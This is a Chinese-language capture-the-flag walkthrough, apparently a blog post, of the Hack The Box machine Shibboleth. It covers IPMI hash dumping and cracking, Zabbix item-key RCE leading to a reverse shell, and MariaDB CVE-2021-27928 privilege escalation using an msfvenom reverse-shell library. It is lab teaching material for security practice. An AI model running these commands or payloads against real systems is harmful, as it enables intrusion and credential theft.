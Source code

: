 ```yaml
---
title: Shibboleth
date: 2022-01-13 17:37:59
tags: Hack the box
categories: 中间件安全
---
```


## 信息收集
只做一个简单的扫描，发现只开放了web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/97c60e806c6d413eb3524efdf5cbdb9c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/19faecaea42a449ba7cf1bc2244db896.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
fuzz了一下路径，并没有发现任何有价值的路径信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d1c7ad510a74a089d925f6c3b674ead.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们将思路转换到子域名挖掘上，发现了三个子域，我们将它们逐一访问的时候发现都同时指向同一个登录页面

```bash
wfuzz -c -u "http://shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 26 -H "HOST:FUZZ.shibboleth.htb"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/520287b9831e4eafa7e8f56cb80b2463.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5cd36cb1f22d4ffc97f718b00a6170eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
我们对这个表单进行SQL注入漏洞的检测时，并没有发现存在注入，也没有发现对应的中间件漏洞，到这里我的思路断了。我在反思它是个靶场肯定是有漏洞点的，可能是我信息收集那块做得不够细致。因此我对靶场进行UDP端口的扫描，查看是否存在漏扫的地方。扫描时发现开放了623端口的asf-rmcp服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d6296236bc149bb9e96a7c0219733f9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

在搜索引擎上搜索时，发现了对应的漏洞利用复现。漏洞利用的方式是使用MSF框架的对应模块进行漏洞的检测
![在这里插入图片描述](https://img-blog.csdnimg.cn/c1bceb8bee654c4d82f8bd3ecd59c2a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/53abaaec2bdc4593a1cc5de0b865f47e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
设置好对应的参数后，发现IPMI的版本是2.0
![在这里插入图片描述](https://img-blog.csdnimg.cn/5430d56678624006bcb42e414ff0a16e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们可以尝试使用下载哈希的模块，尝试能否将用户对应的hash值下载下来。我们发现对应的管理员的哈希值，我们可以将哈希值保存下来，使用hashcat进行密码破解，因为对应的加密方式是IPMI，因此我们可以筛选一下![在这里插入图片描述](https://img-blog.csdnimg.cn/8ddb20fb646844cb8c2c59c9be1da693.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
对应的编号是7300，解密出来的密码是`ilovepumkinpie1`。

```bash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d0ed66d101f41c593497ac9adc49a27.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8bba274825dc42cba553281a16464f09.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以拿这个账号密码登录进zabbix的管理员页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/85d21ce1938d44168a00a9fbfc97ee33.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查阅对应的漏洞复现文章发现，在Configuration的hosts处，可以添加对应的脚本，实现RCE漏洞的执行
![在这里插入图片描述](https://img-blog.csdnimg.cn/aa4967975c894ae188bd13955e787130.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/99a13f40d5a6484dac50075d8cf77c10.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b9ceff97b59546599dedd240624fca25.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在key处添加我们要执行的RCE代码内容，点击添加并执行，期间我们开启对应的监听端口，可以反弹一个shell到本地终端上
![在这里插入图片描述](https://img-blog.csdnimg.cn/89a3911aa36b420887970de69515048e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0622899df61434e924f6d2b2b2ab3b2.png)
## 提权
我们确实是获得了一个终端，但是并没有权限查看到user.txt的内容，我们得想办法提权到ipmi-svc这个账户的权限上
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4b5288c956948ba9dd4b917f5396c02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们下意识可以尝试，使用Administrator账户的密码看看是否能成功。令人很意外的是，居然成功了
![在这里插入图片描述](https://img-blog.csdnimg.cn/586fc07ad39344f8858fd00d7dbdb3d1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那下一步就是拿取root权限了，我上传了个linpeas.sh脚本到目标主机上进行检查，但是并没有发现任何有价值的信息。但是我们查看本地的端口时，发现开放了mysql服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/1cabb3c6e28b43f5a42c5b3bb9d2e9c8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们进入到zabbix的目录上，筛选信息发现了数据库的密码为`bloooarskybluh`，用户名为`zabbix`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2423387ead4747a28f952d7b47bab881.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c46ad8d982584668af369bfe0217eb1c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试登录到数据库上，数据库的版本为`10.3.25`
![在这里插入图片描述](https://img-blog.csdnimg.cn/c99b6814e5f94d5796ef64db705d2fe9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我尝试过搜寻数据库中对应账户的密码进行解密，但是都无功而返。切换一种思路，我搜寻到了mysql对应版本的漏洞信息。文章中说明了这个版本的mysql存在RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/88dd5b53214b46a1b29cf0f8250eadfd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我在github上找到一个漏洞利用的脚本，这是链接[https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)
![在这里插入图片描述](https://img-blog.csdnimg.cn/11fbc233c5ad4caa848e064466e57189.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
根据提示来，我们先生成一个对应的payload，再开启监听反弹一个root的shell到本地上

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f elf-so -o payload.so
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba5f1d4ea3274eadaa72fd212301296f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后把payload文件上传到目标主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/d37c053a543346549047aa87a86b4409.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
最后登录到mysql里，执行这么一段指令`SET GLOBAL wsrep_provider="/tmp/payload.so";`，获得root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/cab9ce62d2c54b2d8ef5236665166e5d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 总结
这个靶机还是相当出色的，首先一般的扫描只能扫描到80的web服务，因为web服务最多就只能发掘到子域的登录表单上，之后就断思路了。所以还得扫描UDP的端口，这个就不是特别多人能够想得到，进行登录操作后，又得考验对zabbix的RCE漏洞利用，这个要求也比较高，然后再到root的提权上，很充分地考查了对中间件安全的知识，总体来说这是一个相当出色的靶机。

